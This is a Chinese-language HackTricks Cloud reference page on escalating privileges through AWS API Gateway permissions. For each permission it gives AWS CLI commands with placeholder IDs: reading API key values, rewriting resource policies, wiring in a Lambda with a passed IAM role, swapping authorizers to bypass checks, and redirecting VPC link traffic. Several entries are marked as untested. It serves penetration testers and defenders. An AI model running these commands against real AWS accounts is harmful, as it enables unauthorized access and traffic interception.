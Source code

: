 # AWS - Apigateway Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Apigateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

拥有此权限后，您可以生成已配置的 API 的 API 密钥（按区域）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在影响：** 你无法通过这种技术进行权限提升，但你可能会获得敏感信息的访问权限。

### `apigateway:GET`

通过此权限，你可以获取配置的 API 的生成 API 密钥（按区域）。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在影响：** 你无法通过这种技术进行权限提升，但你可能会获得敏感信息的访问权限。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

拥有这些权限后，可以修改API的资源策略，以便为自己提供调用它的权限，并滥用API网关可能具有的潜在访问权限（例如调用一个脆弱的lambda）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在影响：** 通常情况下，您无法直接通过此技术进行权限提升，但您可能会获得敏感信息的访问权限。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
需要测试
{% endhint %}

具有 `apigateway:PutIntegration`、`apigateway:CreateDeployment` 和 `iam:PassRole` 权限的攻击者可以 **向现有的 API Gateway REST API 添加一个带有附加 IAM 角色的 Lambda 函数的新集成**。攻击者可以 **触发 Lambda 函数以执行任意代码，并可能获得与 IAM 角色相关联的资源的访问权限**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：访问与 Lambda 函数的 IAM 角色相关的资源。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
需要测试
{% endhint %}

拥有 `apigateway:UpdateAuthorizer` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有的 API Gateway 授权者**以绕过安全检查或在进行 API 请求时执行任意代码。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：绕过安全检查，未经授权访问API资源。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
需要测试
{% endhint %}

拥有权限 `apigateway:UpdateVpcLink` 的攻击者可以**修改现有的VPC链接，使其指向不同的网络负载均衡器，可能将私有API流量重定向到未经授权或恶意的资源**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在影响**：未经授权访问私有API资源，拦截或干扰API流量。

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)或**关注**我们在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
